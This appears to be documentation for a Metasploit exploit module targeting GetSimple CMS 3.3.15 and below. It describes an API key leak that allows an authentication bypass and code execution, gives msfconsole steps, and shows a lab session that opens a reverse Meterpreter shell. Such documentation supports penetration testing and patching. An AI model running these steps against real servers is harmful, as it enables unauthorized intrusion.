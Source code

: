 ## Description

  This module exploits a vulnerability found in GetSimpleCMS, which
  allows unauthenticated attackers to perform Remote Code Execution.
  An arbitrary file upload vulnerability can be triggered by an
  authenticated user, however authentication can be bypassed by leaking
  the cms API key to target the session manager.

## Vulnerable Application

  GetSimple CMS versions 3.3.15 and below

  Vulnerable installations can be found [here](http://get-simple.info/)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/getsimplecms_unauth_code_exec```
  4. Do: ```set RHOSTS <IP>```
  4. Do: ```run```
  5. You should get a shell.

## Scenarios

### Tested on GetSimple CMS v3.3.15 on Ubuntu 18.04

  ```
  msf5 > use exploit/multi/http/getsimplecms_unauth_code_exec
  msf5 exploit(multi/http/getsimplecms_unauth_code_exec) > set rhosts 192.168.37.137
  rhosts => 192.168.37.137
  msf5 exploit(multi/http/getsimplecms_unauth_code_exec) > set verbose true
  verbose => true
  msf5 exploit(multi/http/getsimplecms_unauth_code_exec) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] GetSimpleCMS version 3315
  [*] Sending stage (38247 bytes) to 192.168.37.137
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.137:32976) at 2019-05-16 11:22:39 -0500

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
  Computer    : ubuntu
  OS          : Linux ubuntu 4.18.0-16-generic #17~18.04.1-Ubuntu SMP Tue Feb 12 13:35:51 UTC 2019 x86_64
  Meterpreter : php/linux
  meterpreter >
  ```
